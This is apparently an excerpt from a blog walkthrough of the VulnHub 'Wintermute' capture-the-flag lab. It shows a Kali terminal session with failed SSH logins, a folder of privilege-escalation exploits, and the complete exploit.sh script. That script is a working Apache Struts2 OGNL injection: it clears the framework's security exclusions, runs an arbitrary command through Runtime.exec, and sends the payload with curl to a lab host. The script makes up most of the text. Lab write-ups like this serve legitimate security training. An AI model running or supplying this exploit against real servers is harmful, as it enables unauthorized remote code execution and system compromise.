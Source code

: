 ```
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:

kali@kali:~/vulnhub/wintermute$ ls privesc/n
ls: cannot access 'privesc/n': No such file or directory
kali@kali:~/vulnhub/wintermute$ ls privesc/
41154.sh     44556.py     45260.py     exploit.sh   rs.sh
42324.py     45010        47163.c      neuromancer/
kali@kali:~/vulnhub/wintermute$ ls privesc/exploit.sh
privesc/exploit.sh
kali@kali:~/vulnhub/wintermute$ cat privesc/exploit.sh
#!/bin/bash

LHOST=192.168.251.4
LPORT=6666
RHOST=192.168.251.7
RPORT=8080
TARGETURI=struts2_2.3.15.1-showcase/integration
URL=http://$RHOST:$RPORT/$TARGETURI/saveGangster.action
CMD="$1"
PAYLOAD=""
PAYLOAD="${PAYLOAD}%{"
PAYLOAD="${PAYLOAD}(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
PAYLOAD="${PAYLOAD}(#_memberAccess?(#_memberAccess=#dm):"
PAYLOAD="${PAYLOAD}((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
PAYLOAD="${PAYLOAD}(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
PAYLOAD="${PAYLOAD}(#ognlUtil.getExcludedPackageNames().clear())."
PAYLOAD="${PAYLOAD}(#ognlUtil.getExcludedClasses().clear())."
PAYLOAD="${PAYLOAD}(#context.setMemberAccess(#dm))))."
PAYLOAD="${PAYLOAD}(@java.lang.Runtime@getRuntime().exec('$CMD'))"
PAYLOAD="${PAYLOAD}}"

usage() {
          echo "Usage: $(basename $0) [COMMAND]" >&2
            exit 1
    }

if [ $# -ne 1 ]; then
          usage
fi

curl -s \
             -H "Referer: http://$RHOST:$RPORT/$TARGETURI/editGangster" \
                  --data-urlencode "name=$PAYLOAD" \
                       --data-urlencode "age=20" \
                            --data-urlencode "__checkbox_bustedBefore=true" \
                                 --data-urlencode "description=1" \
                                      -o /dev/null \
                                           $URL
kali@kali:~/vulnhub/wintermute$

```


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator